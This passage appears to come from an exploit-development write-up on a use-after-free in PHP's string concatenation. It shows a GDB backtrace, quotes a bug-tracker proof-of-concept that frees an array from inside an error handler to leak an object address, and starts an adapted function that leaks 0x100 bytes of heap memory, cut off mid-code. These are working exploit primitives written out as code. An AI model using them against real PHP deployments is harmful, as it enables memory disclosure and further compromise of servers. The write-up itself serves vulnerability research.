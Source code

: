 ```c
[#0] 0x555555b44039 → concat_function(result=0x7ffff3e55608, op1=0x7ffff3e55608, op2=0x7fffffff7400)
[#1] 0x555555caf4d1 → zend_binary_op(op2=0x7ffff3e911d0, op1=0x7ffff3e55608, ret=0x7ffff3e55608)
[#2] 0x555555caf4d1 → ZEND_ASSIGN_OP_SPEC_CV_CONST_HANDLER()
[#3] 0x555555cfb267 → execute_ex(ex=0x7ffff3e13020)
[#4] 0x555555cfe6e6 → zend_execute(op_array=0x7ffff3e80380, return_value=0x0)
[#5] 0x555555b5213c → zend_execute_scripts(type=0x8, retval=0x0, file_count=0x3)
[#6] 0x555555a8a8ae → php_execute_script(primary_file=0x7fffffffcbe0)
[#7] 0x555555d012b1 → do_cli(argc=0x2, argv=0x55555678a350)
[#8] 0x555555d026e5 → main(argc=0x2, argv=0x55555678a350)

```

We can confirm that the issue is present. If we check the original PoC reported on that bug tracker thread we can see this:

```php
// Just for attaching a debugger.
// Removing these lines makes the exploit fail,
// but it doesn't mean this exploit depends on fopen.
// By considering the heap memory that had been allocated for the stream object and
// adjusting heap memory, the exploit will succeed again.

$f = fopen(‘php://stdin’, ‘r’); 
fgets($f);

$my_var = [[1,2,3,4],[1,2,3,4]];
set_error_handler(function() use(&$my_var,&$buf){
    $my_var=1;
    $buf=str_repeat(“xxxxxxxx\x00\x00\x00\x00\x00\x00\x00\x00", 16);
});
$my_var[1] .= 1234;

$my_var[1] .= 1234;

$obj_addr = 0;
for ($i = 23; $i >= 16; $i--){
    $obj_addr *= 256;
    $obj_addr += ord($buf[$i]);
}

```

This code can be adapted to confirm the UAF issue. In our case we can edit it to leak 0x100 bytes of memory:

```php
<?php

function leak_test() {
    $contiguous = [];
        for ($i = 0; $i < 10; $i++) {
            $contiguous[] = alloc(0x100, "D");
        }
    $arr = [[1,3,3,7], [5,5,5,5]];
    set_error_handler(function() use (&$arr, &$buf) {
        $arr = 255;
        $buf = str_repeat("\x00", 0x100);
    });
    $arr[1] .= 1337; 
    return $buf;
}


function alloc($size, $canary) {
```